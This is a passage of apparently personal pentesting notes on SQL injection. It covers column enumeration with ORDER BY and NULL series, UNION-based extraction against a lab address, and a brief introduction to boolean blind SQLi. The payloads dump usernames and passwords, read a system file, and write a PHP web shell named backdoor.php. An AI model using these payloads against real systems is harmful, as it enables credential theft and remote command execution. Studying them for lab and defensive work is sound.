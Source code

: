 By increasing the value of 'order by', we can enumerate the number of columns in the table.

You can also use NULL series:
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

### UNION extraction

Once we know the exact number of columns, we need to understand which columns are exposed into the web page.

```bash
http://10.11.0.22/debug.php?id=1 UNION all select 1, 2, 3
```

![](../../zzz_res/attachments/union-sqli.png)

Understood where the fields are, we can start extracting information from the DB

```bash
http://10.11.0.22/debug.php?id=1 UNION all select 1, 2, @@version
http://10.11.0.22/debug.php?id=1 UNION all select 1, 2, user()
http://10.11.0.22/debug.php?id=1 UNION all select 1, 2, table_name from information_schema.tables
http://10.11.0.22/debug.php?id=1 UNION all select 1, 2, column_name from information_schema.columns WHERE table_name='users'
```

### Dumping data, reading and creating files

```bash
http://10.11.0.22/debug.php?id=1 UNION all select 1, username, password FROM users
http://10.11.0.22/debug.php?id=1 UNION all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
http://10.11.0.22/debug.php?id=1 UNION all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

---

## Blind SQLi

### Boolean base SQLi

If we have an **item** on the screen **that appears or disappears based on the results of the query or application behaviour** that can be **traced back to TRUE vs FALSE**, we can query the entire DB and get TRUE / FALSE answers. For example, we could find out if table X exists, if the first letter of the username starts with 'a', etc.


[^demo]: [Test SQL queries online against the specified DB](https://youtu.be/61kf4CEnOZk?si=7heW6R8LN0pkQth3&t=1291), IppSec
[^hacktricks-article]: [No commas bypass](https://book.hacktricks.xyz/pentesting-web/sql-injection#no-commas-bypass), book.hacktricks.xyz
[^ippsec-video]: [SQL Injecting Beyond Strict Filters - Union Without Comma](https://www.youtube.com/watch?v=61kf4CEnOZk), IppSec